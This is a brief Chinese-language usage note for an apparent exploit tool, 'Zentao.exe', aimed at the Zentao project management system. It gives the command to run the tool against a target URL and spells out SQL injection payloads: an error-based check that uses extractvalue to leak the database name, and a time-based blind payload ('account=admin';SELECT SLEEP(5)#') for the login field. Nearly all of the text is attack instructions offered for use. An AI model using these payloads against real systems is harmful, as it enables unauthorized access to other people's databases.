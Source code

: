 ### 使用说明
##### usage: ./Zentao.exe -u url (加http://)
##### 禅道当前数据库都是zentao,判断注入条件 extractvalue(1,concat(0x7e,(database()),0x7e) == zentao 盲注payload account=admin';SELECT SLEEP(5)#